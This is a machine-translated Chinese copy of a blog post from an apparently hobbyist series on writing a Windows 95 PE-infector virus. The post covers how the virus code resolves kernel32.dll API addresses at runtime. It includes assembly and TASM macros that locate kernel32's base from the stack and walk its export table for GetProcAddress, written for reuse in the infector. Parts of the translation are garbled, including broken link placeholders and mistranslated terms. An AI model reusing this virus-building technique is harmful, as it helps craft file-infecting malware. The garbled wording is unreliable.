# 使用 win 95 kernel32.dll 出口像病毒。

> 原文：<https://dev.to/cpu/using-win95-kernel32-dll-exports-like-a-virus-elg>

欢迎回来！如果这是你第一次访问 VeXation，你可能想从阅读关于项目的信息开始(T0)，项目的信息(T1)，T2 的开发环境(T3)，正在进行的工作(T4 的 PE 传染者病毒(T5)，或者之前关于 delta 补偿(T7)的文章(T6)。

# 继续重述

在[的最后一篇](https://dev.to/cpu/a-virus-writers-best-friend-the-delta-offset-1hle)我完成了 [`pijector`](https://github.com/cpu/vexation/tree/master/pijector) ，更新版 [`minijector`](https://github.com/cpu/vexation/tree/master/minijector) 。`pijector`是一种 PE 可执行文件感染病毒，它可以通过向受感染的目标添加新的部分来将其代码添加到在同一目录中找到的`.exe`文件中。注入的代码是独立的，与位置无关。

`pijector`有两个很大的缺点，这使得它无法成为功能性病毒。在第 1 代+中:

1.  病毒代码使用 Win32 API 函数的方式将不起作用——间接层被破坏，第一个 API 函数调用将崩溃。
2.  被感染程序的原始入口点永远不会被调用。感染实际上破坏了宿主程序。

今天我将描述我是如何解决 Win32 API 问题的。这样一来，我就可以在以后的文章中描述我是如何处理最初的入口点问题的。

让我们直接跳进来吧！

# 理解问题

为了理解为什么在`pijector`病毒代码中的 Win32 API 函数调用被破坏，我开始在调试器中比较第 0 代和第 1 代的执行。通过仔细检查两代病毒代码中的第一个 win32 函数调用，并比较结果，我能够对问题有所了解。

## 第 0 代

我从运行`td32`中的第 0 代`pijector.exe`开始，切换到 CPU 视图。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--FxmrMwGm--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/4rcxzouqmtny6lh12e0a.png)

`pijector`病毒代码使用的第一个 Win32 API 函数是从`C:\windows\system\kernel32.dll`导出的 [`FindFirstFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findfirstfilea) 。

在源代码中，它看起来像:

```
call FindFirstFileA, eax, ebx 
```

在反汇编视图中，它看起来像:

```
push ebx
push eax
call PIJECTOR.0040165C 
```

我期望调用目标是在`kernel32.dll`地址空间中的某个内存地址，但是反汇编显示目标在`pijector`的地址空间中。调试器已经在挑战我的假设了！

看到一个未知地址的呼叫，我的第一个问题是“在`0x0040165C`是什么代码”？在`td32`中检查的一种方法是通过右击该行并选择“跟随”来“跟随”T2。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--TSY86GaF--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/5jvcmn7e92hf6znzydsf.png)

现在`td32`显示:

```
jmp [00403060] 
```

因此该调用将调试器带到在`0x00403060`指定的地址的`jmp`指令。在`td32`菜单中选择“数据”,然后选择“检查”,会弹出一个窗口，在跟随它之前，我会快速浏览一下`jmp`将会到达的地址。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--rARRbrzB--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/w9qatpcpk2ck1jao8e33.png)

输入`[00403060]`作为表达式(就像在反汇编中一样)显示`dword`十六进制值:

```
0x82C8F140 
```

这看起来更像我最初期待的:一个在`kernel32.dll`的地址。跟随`jmp [00403060]`指令确认调试器确实在`kernel32.dll`地址空间中结束。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--xmks4oMy--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/2q13itpdkudg5ovjilpt.png)

现在拆解显示:

```
push BFF77A18
jmp KERNEL32.BFF93BD3 
```

很有意思！已经很清楚的是，在病毒代码的`call`到 Win32 APIs 和控制最终如何在`kernel32.dll`地址空间中结束之间有一些间接性。

与 [`pijector`](https://github.com/cpu/vexation/blob/master/pijector/pijector.exe.tdump.txt) 和 [`kernel32.dll`](https://github.com/cpu/vexation/blob/master/apifind/kernel32.dll.tdump.txt) 的`tdump`输出相比，这个调试实验中的一些地址更有意义。

首先，`jmp [00403060]`指令很有趣，因为`pijector` 的 [`tdump`显示`0x00403060`在`.idata`段。](https://github.com/cpu/vexation/blob/master/pijector/pijector.exe.tdump.txt) 

```
Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags   
--  --------  --------  --------  --------  --------  --------
01  CODE      00001000  00001000  00000800  00000600  60000020 [CER]
02  DATA      00001000  00002000  00000000  00000E00  C0000040 [IRW]
03  .idata    00001000  00003000  00000200  00000E00  C0000040 [IRW]
04  .reloc    00001000  00004000  00000200  00001000  50000040 [ISR] 
```

我能很快看出这一点，因为从`jmp`引用(`0x00403060`)中的地址减去`pijector.exe` ( `0x00400000`)的基址就得到`0x00003060`。由于`0x00003060`大于`0x00003000`(即`.idata`部分的`RVA`)小于`0x00004000`(即`.reloc`部分的`RVA`)，用于`jmp`目标的指针必须在`.idata`中。

当与`C:\windows\sytem\kernel32.dll` 的 [`tdump`匹配时，`jmp [00403060]`执行的`push BFF77A18`指令很有趣。(*`tdump`和`.dlls`配合使用不是很方便吗？*)](https://github.com/cpu/vexation/blob/master/apifind/kernel32.dll.tdump.txt)

在我的`kernel32.dll`的导出中`FindFirstFileA`函数是这样出现的:

```
 0249    00007a18  FindFirstFileA 
```

它有序数 249 和 RVA `0x00007a18`。将`kernel32.dll`基址`0xBFF70000`(稍后会详细介绍)添加到`FindFirstFileA` RVA 中，给出了`0xBFF77A18`——来自`push`指令的参数！

这一切意味着什么？总而言之:

*   第 0 代中的`call FindFirstFileA`不会立即调入`kernel32.dll`代码。
*   取而代之的是，它调用一个本地地址，该本地地址指向在`.idata`部分的指针中指定的内存地址
*   `jmp`在`kernel32.dll`中执行，在那里导出的`FindFirstFileA`函数地址被推入。

(*注意:上面的一些是特定于`tasm32` `/tlink32`的，但一般来说，它对其他汇编器/连接器*的工作是相似的)。

为什么这么多的间接？一个原因是它让操作系统加载器用指向导入的`kernel32.dll`函数的指针来填充`.idata`部分，而不必更新调用导入函数的代码部分中的每个地方。

(*注:关于这些机制的更严格的解释，请参见[“PE 内部的对等”](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)) MSDN 的文章，特别是[“PE 文件导入”](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-import)和[“PE 文件导出”](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-exports)* )

现在我已经看到了 API 函数调用在第 0 代中是如何工作的，是时候转向崩溃的第 1 代代码了。忽略任何其他资源，根据从第 0 代开始的了解，开始发现问题是可能的。我看到的间接依赖于一个`.idata`段中的指针，但病毒代码只在目标中创建了一个新的`.ireloc`段，没有任何东西可以继承或纠正丢失的`.idata`指针。我使用第 1 代`calc.exe`在`td32`中遵循 API 调用的相同过程来验证这个想法。

## 第 1 代

在`td32`中加载被感染的第 1 代`calc.exe`我看到`call FindFirstFileA` Win32 API 函数在病毒代码中调用了几条指令，在增量偏移计算之后。类似于第 0 代反汇编，函数调用是对`calc.exe`地址空间内的内存地址的`call`。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--z_1u6mOm--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/3u70nbqnl1roft5ekmjh.png)

在第 0 代中，拆卸是:

```
call PIJECTOR.0040165C 
```

在第 1 代中，拆卸是:

```
call 0041365C 
```

代码的位置解释了地址(`0x0040165C`与`0x0041365C`)的差异。在这两种情况下，`call`的相对目标是`0x0000065C`，但是`call`本身的位置不同。

在第 0 代中，可执行文件的基址是`0x00400000`，而`CODE`部分的 RVA 是`0x00001000`。如果我添加基址、RVA 部分和相对目标，我得到第 0 代调用目标:`0x00400000` + `0x00001000` + `0x0000065C` = `0x0040165C`。

在第 1 代中，可执行文件的基址仍然是`0x00400000`，但是`call`指令所在的`.ireloc`段的 RVA 是`0x00013000`。如果我再次添加基址、RVA 部分和相对目标，我将得到第 1 代调用目标:`0x00400000` + `0x00013000` + `0x0000065C` = `0x0041365C`。

到目前为止，死刑的执行看起来是一样的。继续跟随`call`将回答问题“在`calc.exe`中的`0x0041365C`处是什么代码？”。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--y4FXrnt6--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/q6iut6ctafa7ahsmqhe3.png)

反汇编显示了一条`jmp`指令，其目标(`[00403060]`)看起来与第 0 代相同。到目前为止一切顺利。

```
jmp [CALC.00403060] 
```

再次使用数据检查器窗口，可以检查目标`jmp`在`[00403060]`的地址:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--4h8VlfAw--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/xpsdydz65rjdeo9vzfx9.png)

这一次它显示了一个带有十六进制值的 DWORD:

```
0xFE830574 
```

这个地址看起来完全错了，它不是 0 代人跳到的同一个目标。确凿的证据！

让调试器跟随`jmp [CALC.00403060]`指令将它发送到 la-la land。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--VTY0SPhf--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/y60owml7iesr3dh0edso.png)

[](https://res.cloudinary.com/practicaldev/image/fetch/s--oKS3jyZJ--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/56k62vf1avobmkau248y.png)

`jmp`导致访问冲突，不久之后`calc.exe`崩溃。

# 做什么？

很明显，第 0 代使用的间接寻址在第 1 代+中是个问题。间接`kernel32.dll` API 调用中`jmp`的目标是从一个只有在第 0 代才有意义的地址读取的。类似于我在 delta offset post 中提到的跨多个节[的变量引用的问题，最简单的解决方案是简化:停止使用系统加载器来解析`kernel32.dll`函数引用，停止依赖`.idata`节中的指针(或者其他汇编器的等价指针)。](https://dev.to/cpu/a-virus-writers-best-friend-the-delta-offset-1hle)

## 硬编码

最早的 win32 病毒通过对它们使用的 DLL 函数的地址进行硬编码来避开系统加载程序。想象一下，如果不使用`call FindFirstFileA`代码，而是使用`call 0xBFF77A18`代码。只要`FindFirstFileA`的`kernel32.dll`出口在 RVA `0x00007A18`总是*并且`kernel32.dll`总是*在`0xBFF70000`装载，这将是一帆风顺的。当然，在实践中，所有这些事情都会改变。有时，两个具有不同语言环境的匹配 Windows 版本可能会有差异，这会打破这些假设！**

 *## DIY

解决这个问题的另一种方法(也是我选择的方法)是让病毒代码像它自己的小链接器/加载器一样运行，并找到运行时所需的 DLL 函数的地址。这被证明是一种有趣的方式，可以获得一些实践经验，体验来自[动态链接](https://en.wikipedia.org/wiki/Dynamic_linker)和[操作系统加载器](https://en.wikipedia.org/wiki/Loader_%28computing%29)的概念。

在 Windows 中，动态链接是[动态链接库](https://support.microsoft.com/en-us/help/815065/what-is-a-dll)的领域。dll)。最好的部分是 dll 被实现为 PE 可执行文件！已经编写了用于操作 PE 元数据的 x86 ASM，现在可以直接使用`kernel32` DLL 了。这也是可信的`tdump`工具对 dll 没有问题的原因。

还有另一个方便的 Windows 技巧，病毒代码可以使用它来做外部 DLL 函数的运行时链接: [`kernel32.GetProcAddress`](https://docs.microsoft.com/en-us/windows/desktop/api/libloaderapi/nf-libloaderapi-getprocaddress) 。这是一个从`kernel32.dll`中导出的函数，它根据导出的 DLL 函数的名称和 DLL 的基址来查找该函数的地址。

这是一条很好的捷径。病毒所要做的就是以某种方式找到`kernel32.dll`和`GetProcAddress`函数的地址，从那里很容易找到任何其他所需的 API 地址，而不依赖于`.idata`部分或任何硬编码的偏移量。

# 探索解决方案

由于在运行时从`kernel32.dll`中寻找 win32 API 函数地址的任务是相当独立的，所以我决定从试验一个独立于 PE infector 病毒代码的程序开始。一旦我有了一个好的解决方案，我就把它重新整合到病毒代码中。

我决定调用独立程序`apifind`,因为这就是它要做的。在高层次上`apifind`代码:

1.  查找`kernel32.dll`的基址
2.  查找`kernel32.dll`的`IMAGE_EXPORT_DIRECTORY`结构
3.  在`IMAGE_EXPORT_DIRECTORY.AddressOfNames`中查找`GetProcAddress`的索引
4.  使用索引查找`IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals`中的`GetProcAddress`序号。
5.  使用`GetProcAddress`的序数查找`IMAGE_EXPORT_DIRECTORY.AddressOfFunctions`中的输出 RVA
6.  使用发现的`GetProcAddress`的 RVA 来寻找其他需要的 API(例如`kernel32.FindFirstFileA`)。

`apifind`的代码可以在的 VeXation Github repo[中获得。](https://github.com/cpu/vexation/tree/master/apifind)

## kernel32.dll 在哪里？

`apifind`需要做的第一件事是找到加载`kernel32.dll`的基址。

如果您熟悉更现代的(Windows 2000/NT+)恶意软件，您可能知道一个技巧，它基于从进程环境块(PEB)追踪指向已加载模块列表的指针。在 Windows 2000/NT/XP 上`kernel32.dll`在这个列表中的位置是可预测的，因此提供了一种可靠的方法来动态地找到基址。因为我的目标是 Windows 95，所以它完全不适用，需要采取另一种方法。

我用的“招数”反而是老招数了。我看到的第一篇参考文献是在 1999 年的第 29 期第 04 期和“致命头脑”的一篇名为[“检索 API 地址”](http://dsr.segfault.es/stuff/website-mirrors/29A/29a-4/29a-4.227)的文章中。我怀疑这个技巧也出现在这篇文章之前。(*你能称之为“诡计”吗？在某种程度上，这就是事情运作的方式*。

核心思想是利用这样一个事实，即当操作系统第一次启动程序时，是`kernel32.dll`调用每个程序的入口点。更具体地说，是`kernel32.dll`的`CreateProcess`函数调用程序的入口点。由于病毒代码替换了被感染程序的原始入口点，我知道在病毒代码开始执行时，堆栈顶部的返回地址将会指向某处的`kernel32.dll`。

```
@@findkernel32:
  ; Put the dword value from the top of the stack into esi. This is the return
  ; address for the kernel32.CreateProcess function call one frame above us and
  ; points somewhere in kernel32.dll.
  mov esi, dword ptr [esp] 
```

因为`kernel32.dll`是一个 DLL 并且 DLL 是可移植的可执行文件，我知道`kernel32.dll`的开始看起来像什么:它应该有一个带有神奇的`MZ`字节的 DOS 头。此外，我知道它将在内存中对齐。以前文章中的所有体育知识真的派上用场了！:-)

使用堆栈中的返回地址，病毒代码可以通过一个区段的大小向后搜索，寻找 DOS 头的神奇字节。当它找到一个具有预期标题的段对齐地址时，它将成为`kernel32.dll`的基址。

```
 ; We know the DLL is section aligned so clear out the lower byte of ESI to
  ; begin the search at the section start.
  and esi, 0FFFF0000h

@@findpe:
  ; If ESI points at the value 'MZ' it indicates the section contains
  ; a PE executable and we know its the base addr of kernel32.dll
  cmp word ptr (IMAGE_DOS_HEADER [esi]).Magic, IMAGE_DOS_SIGNATURE
  je @@findgetprocaddr
  ; Otherwise move back by the section alignment and try checking 
  ; for the DOS header magic bytes again.
  sub esi, PE_SECTION_ALIGNMENT
  jmp @@findpe

@@findgetprocaddr:
; If execution gets here we found the kernel base address in ESI. Woohoo 
```

这种技术的一个缺点是，只有当病毒代码在主程序代码之前执行时，它才会起作用。如果真正的程序首先运行，那么堆栈的状态将是不可预测的。如果我使用更复杂的入口点模糊处理，将来我可能不得不重新考虑这个策略，但是现在它将可靠地工作。

## DLL 导出

知道了加载`kernel32.dll`的基址，我就可以进入`apifind`的下一个挑战:在`kernel32.dll`中找到`GetProcAddress`函数的导出。

PE 格式负责描述 DLL 如何导出一个函数供另一个程序使用。“窥视 PE 内部”文章中关于[“PE 文件导出”](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-exports)的部分是理解 PE 导出的无价资源。

总而言之，`kernel32.dll`有一个可预测定位的`IMAGE_EXPORT_DIRECTORY`结构(它总是 PE 结构的节表之后的第一个数据目录)。在`IMAGE_EXPORT_DIRECTORY`结构内部是指向三个数组的指针:

1.  `AddressOfFunctions` -保存指向每个导出的 DLL 函数的 RVA 的指针。
2.  `AddressOfNames` -保存指向每个导出的 DLL 函数的空终止名的指针。
3.  `AddressOfNameOrdinals` -其中保存着序数(想想身份证号？)的每个导出的 DLL 函数。

所有三个数组都有相同数量的条目，可以并行访问。也就是说，如果我可以在`AddressOfNames`中找到一个特定函数名的索引，我就可以使用这个索引在`AddressOfNameOrdinals`中找到序号，然后使用序号在`AddressOfFunctions`中找到函数指针。

完成上述的 [x86 汇编有点粗糙，但我尽了最大努力对它进行彻底的注释。在高层次上，代码:](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apifind/apifind.asm#L94-L199)

1.  找到`kernel32.dll` `IMAGE_EXPORT_DIRECTORY`结构。
2.  在`AddressOfNames`中循环查找匹配`"GetProcAddress\0"`的条目
3.  使用`AddressOfNames`中的匹配偏移量找到`AddressOfNameOrdinals`中`GetProcAddress`的序号
4.  使用`GetProcAddress`的序号在`AddressOfFunctions`中查找导出函数的内存地址。

一旦知道了来自`kernel32.dll`的`GetProcAddress`函数的地址，乐趣就真正开始了。

## 自己链接吧

来自`pijector`的病毒代码使用了一些`kernel32.dll`函数(`FindFirstFileA`、`FindNextFileA`、`lstrcpy`、`CreateFileA`等)。使用`GetProcAddress`提供了一种简单的方法来找到每个地址，而不需要做太多的工作来搜索`kernel32.dll`导出表。

为了找到`FindFirstFileA`的地址，`apifind.asm`代码使用发现的`GetProcAddress`地址(保存在变量`GetProcAddress`中):

```
 ; Put the kernel32.dll base address in ebx
  mov ebx, [kernel32Base]
  ; Put the offset of the null terminated string "FindFirstFileA\0" into ecx
  mov ecx, offset szFindFirstFileA
  ; Invoke GetProcAddress(ebx, ecx) by putting the GetProcAddress function's
  ; address in eax and calling it.
  mov eax, [GetProcAddress]
  call (type procGetProcAddress) PTR eax, ebx, ecx
  ; If the return was zero there was an error
  or eax, eax
  jz @@exit
  ; Otherwise save the discovered function address for FindFirstFileA in a var
  mov [FindFirstFileA], eax 
```

对于病毒想要“链接”的每个功能，它需要两样东西:

1.  空终止字符串中的 API 名称(例如，上面的`szFindFirstFileA`包含“FindFirstFileA\0”)。
2.  一个四字节变量，用于保存函数指针(如上面的`FindFirstFileA`)

我为第一部分选择了最简单的解决方案，并在病毒代码中包含了文字字符串。这对于反病毒来说是显而易见的，因为病毒代码现在将在每个被感染的文件中嵌入类似`"GetProcAddress\0"`、`"FindFirstFileA\0"` [的函数名字符串，而这些字符串在文件的 PE 导入中是不存在的。有很多不同的技巧来解决这个问题，但现在我忽略了反病毒“隐身”。](https://github.com/cpu/vexation/blob/master/apisafejector/apisafejector.exe.strings.txt)

我遇到的另一个挑战是找到一种方法来使用 TASM 的原始函数指针，同时仍然让它处理`stdcall`调用约定和参数检查。对此的解决方案是为原始指针的每个`call`添加显式的`PROCDESC`类型来引用。

您可能会注意到上面片段中奇怪的`call`语法。它依靠一个`procGetProcAddress` `PROCDESC`。简而言之`PROCDESC`是一点 TASM 语法，它让我给汇编程序一个我正在调用的函数的描述，这样它就可以使用正确的调用约定并检查参数。对于`GetProcAddress`来说，`procGetProcAddress` `PROCDESC`看起来像是:

```
procGetProcAddress PROCDESC stdcall baseAddr:DWORD,name:DWORD 
```

它表明应该使用`stdcall`调用约定，并且有两个`DWORD`参数:一个 DLL 的基址和一个指向要查找的导出函数名称的指针。

`apifind.asm`代码使用类似的`PROCDESC`通过用`GetProcAddress` :
找到的地址来调用`kernel32.FindFirstFileA`函数

```
procFindFirstFileA PROCDESC stdcall fileName:DWORD,findData:DWORD

<snipped>

@@tryAPI:
  ; eax == lpFileName argument == "*.exe\0"
  mov eax, offset findFilter
  ; ebx == lpFindFileData argument
  mov ebx, offset findData
  ; edx == resolved address of FindFirstFileA in kernel32.dll
  mov edx, [FindFirstFileA]
  ; Invoke FindFirstFileA( eax, ebx ) by calling edx
  call (type procFindFirstFileA) PTR edx, eax, ebx
  ; If we got an invalid handle from FindFirstFileA that means there were no EXEs 
  ; in the directory.
  cmp eax, INVALID_HANDLE_VALUE
  je @@exit
  ; Otherwise an exe was found and the handle should be saved
  mov [findHandle], eax 
```

端到端这当然比普通程序可以逃脱的简单的`call <api>`更加冗长，但是病毒代码是“特殊的”；-D

# 方便宏

解决这个问题是我的下一个任务。我认为编写一些快速宏是有意义的，这样可以更容易地找到所需的 API 地址并调用它们。Borland 的宏语言非常强大，即使作为一个完全的汇编语言编程新手，我也能很快得到一些不错的结果。

为了便于理解宏是如何替换初始代码的，我做了一个单独的 [`apifind2`](https://github.com/cpu/vexation/tree/master/apifind2) 项目，它从 [`apifind1`](https://github.com/cpu/vexation/tree/master/apifind) 中提取代码并引入了一些新的宏。

我创建了四个宏，每个宏处理病毒在运行时解析的导出 DLL 函数的使用过程中涉及的四个部分之一:

1.  为每个 API 创建一个名称变量和一个指针变量。
2.  描述 API 过程及其参数。
3.  通过查找名称来填充指针变量。
4.  使用指针调用所描述的过程。

## 必需 _API

我为每个 API 声明一个名字变量和一个指针变量而写的宏叫做`REQUIRED_API` :

```
; REQUIRED_API is a macro that defines two vars:
;  1\. a zero terminated API name
;  2\. a pointer to the API function
; The pointer is populated at runtime by finding the
; API name in kernel32.dll using LINK_API
;
; e.g.
;
;   REQUIRED_API ExitProcess
;
; would result in:
;
;   szExitProcess DB "ExitProcess", 0
;   ExitProcess   DD 0
;
REQUIRED_API MACRO var:REQ
  ;; pointer to a null terminated string with the API name
  sz&var  DB "&var",0
  ;; pointer to the API function
  &var    DD 0
ENDM 
```

## desc _ 运行时 _API

我写的为每个 API 生成一个`PROCDESC`的宏叫做`DESC_RUNTIME_API` :

```
; DESC_RUNTIME_API is a macro that creates a PROCDESC prefixed
; with "proc" for a given proc name. It's described as having the
; given arguments and using stdcall convention.
;
; e.g.
;
;   DESC_RUNTIME_API GetProcAddress,<baseAddr:DWORD,szName:DWORD>
;
; would result in:
;
;   procGetProcAddress PROCDESC stdcall baseAddr:DWORD,szName:DWORD
;
; NOTE(@cpu): Don't forget to use <> around the procedure's arguments
;             or they'll be treated as separate arguments to the macro
;             instead of one argument to the macro describing all of the
;             arguments for the procedure's PROCDESC.
;
DESC_RUNTIME_API MACRO name:REQ,args
  proc&name PROCDESC stdcall &args
ENDM 
```

## LINK_API

我写的为一个`REQUIRED_API`寻找`kernel32.dll`函数地址的宏叫做`LINK_API` :

```
; LINK_API finds the given REQUIRED_API in kernel32.dll by its sz pointer
; using GetProcAddress. The API address is saved in the REQUIRED_API
; function pointer for use with CALL_RUNTIME_API. A variable called
; kernel32Base is expected to hold the kernel32.dll base address
LINK_API MACRO var:REQ
    ; Add the kernel32.dll base address
    mov ebx, [kernel32Base]
    ; Put the offset of the null terminated string with the
    ; required API name into ecx
    mov ecx, offset sz&var
    ; Invoke GetProcAddress( kernel32.dll, sz&var )
    CALL_RUNTIME_API GetProcAddress, <ebx, ecx>, eax
    ; If the return was zero there was an error
    or eax, eax
    jz @@exit
    ; Otherwise save the function address into the pointer var
    mov [&var], eax
ENDM 
```

## 调用 _ 运行时 _API

最后一个宏是用来调用之前用`DESC_RUNTIME_API`描述并由`REQUIRED_API`声明的函数。`LINK_API`宏使用`CALL_RUNTIME_API`调用`GetProcAddress`。

```
; CALL_RUNTIME_API is a macro that calls a given API previously setup
; with REQUIRED_API, DESC_RUNTIME_API and LINK_API. The given reg will
; be used as a scratch register to load the address of the API to call.
; If none is provided, edx is used.
; 
; e.g.
;
;   CALL_RUNTIME_API GetProcAddress, <ebx,ecx>, eax
;
; would result in:
;
;   The address of GetProcAddress being put into eax, and called with the 
;   arguments ebx and ecx.
; 
CALL_RUNTIME_API MACRO name:REQ, args, reg:=<edx>
  mov &reg, [&name]
  call (type proc&name) PTR &reg, &args
ENDM 
```

# 下一步

有了`apifind`和`apifind2`，我有了一个有效的方法在运行时找到`kernel32.dll`和它的导出函数，而不用硬编码任何东西。下一步是将这段代码集成回`pijector`病毒代码中。

为此，我创建了一个名为`apisafejector`的项目。像迄今为止的其他项目一样，它的代码可以在烦恼回购中获得[。](https://github.com/cpu/vexation/tree/master/apisafejector)

我能够将`apifind2`中的代码/宏用于`apisafejector`，只有一个小小的例外:所有的变量引用都需要调整以使用[增量偏移](https://dev.to/cpu/a-virus-writers-best-friend-the-delta-offset-1hle)。

